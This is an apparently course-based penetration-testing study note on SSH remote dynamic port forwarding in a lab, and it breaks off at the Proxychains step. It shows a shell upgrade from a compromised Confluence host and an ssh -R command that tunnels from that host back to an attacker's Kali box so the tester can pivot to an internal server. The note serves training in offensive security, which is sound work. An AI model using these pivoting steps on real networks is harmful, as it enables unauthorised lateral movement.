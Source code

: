 ### SSH Remote Dynamic Port Forwarding 

SOCKS proxy bound to _SSH server_ (Kali box)
Traffic forwarded from  _SSH client_ (initial access shell)

Connect to other ports and hosts through same connections set up with static remote port forward. 

_NOTE: remote dynamic port forwarding only works on OpenSSH client 7.6 or above_ 

#### Scenario
_Problem_
Set up remote dynamic port forward to connect to MULTISERVER03
Only have access to Port 8090 on CONFLUENCE01 from Kali
_Solution_
- SSH connection initiated from CONFLUENCE01 to Kali.
- Kali machine has SOCKS proxy on Port 9998.
- Packets sent to Port 9998 will be pushed back to CONFLUENCE01 + then forwarded to MULTISERVER03

Diagram:
![Figure 11: The SSH remote dynamic port forward setup we are aiming for](https://static.offsec.com/offsec-courses/PEN-200/imgs/prat2/0237c8503fc5a185bd4d7fee7d601c44-PRAT2_5_1_SSHRemoteDynamicPortForwardingScenarioPlan.png)


Initial access shell to CONFLUENCE01. 

Spawn TTY

```hlt:1
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<in$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Bind SOCKS proxy to loopback of Kali

```hlt:1
confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -R 9998 kali@192.168.118.4
<n/confluence/bin$ ssh -N -R 9998 kali@192.168.118.4  
```

On Kali, verifying port 9998 is bound

```hlt:1,3,5
kali@kali:~$ sudo ss -ntplu
Netid State   Recv-Q  Send-Q   Local Address:Port   Peer Address:Port Process
tcp   LISTEN  0       128          127.0.0.1:9998        0.0.0.0:*     users:(("sshd",pid=939038,fd=9))
tcp   LISTEN  0       128            0.0.0.0:22          0.0.0.0:*     users:(("sshd",pid=181432,fd=3))
tcp   LISTEN  0       128              [::1]:9998           [::]:*     users:(("sshd",pid=939038,fd=7))
tcp   LISTEN  0       128               [::]:22             [::]:*     users:(("sshd",pid=181432,fd=4))
```

Use Proxychains to tunnel traffic through SOCKS proxy

Editing the Proxychains configuration file to point to the new SOCKS proxy on port 9998
